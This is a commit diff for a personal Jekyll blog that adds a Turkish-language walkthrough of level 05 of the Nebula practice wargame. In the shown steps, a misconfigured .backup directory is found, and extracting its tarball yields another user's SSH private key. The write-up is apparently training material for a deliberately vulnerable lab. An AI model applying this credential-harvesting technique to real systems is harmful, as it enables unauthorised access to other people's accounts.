

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-28-nebula-writeup.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2018-02-28-nebula-writeup.md

```diff
--- a/_posts/2018-02-28-nebula-writeup.md
+++ b/_posts/2018-02-28-nebula-writeup.md
@@ -5,3 +5,36 @@ date: 2018-02-28
 excerpt: "[Level 05-Level 09]"
 comments: false
 ---
+### Level 05
+
+/home/flag05 dizininde, izinleri hatalı olabilecek olan bir dizin arıyoruz.
+{% raw %}
+    level05@nebula:/home/flag05$ ls -al
+    total 5
+    drwxr-x--- 1 flag05 level05  100 2012-08-18 03:22 .
+    drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
+    drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
+    -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
+    -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
+    -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
+    drwx------ 1 flag05 flag05   100 2011-11-20 03:07 .ssh
+{% endraw %}
+Dikkatimizi çeken .ssh ve .backup dizinleri. Fakat .ssh dizininin izinleri olması gerektiği gibi. .backup dizinini kurcalamaya devam ediyoruz.
+> Bir dizin için ls komutunu kullanabilmek için  okuma(r) , cd komutunu kullanabilmek için çalıştırma(x) iznimizin bulunması gerekir.
+{% raw %}
+    level05@nebula:/home/flag05$ cd .backup
+    level05@nebula:/home/flag05/.backup$
+    drwxr-x--- 1 flag05 flag05    100  2011-11-20 03:22 .
+    drwxr-xr-x 1 flag05 level05    80  2012-08-18 07:18 ..
+    -rw-rw-r-- 1 flag05 flag05   1826  2011-11-20 20:13 backup-19072011.tgz
+{% endraw %}
+Yeterli izinlerimizin olmaması sebebiyle tar dosyasını bulunduğumuz yerde açamıyoruz.
+{% raw %}
+    level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp
+    level05@nebula:/home/flag05/.backup$ cd /tmp
+    level05@nebula:/tmp$ tar -xvf backup-19072011.tgz
+    .ssh/
+    .ssh/id_rsa.pub
+    .ssh/id_rsa
+    .ssh/authorized_keys
+{% endraw %}
```
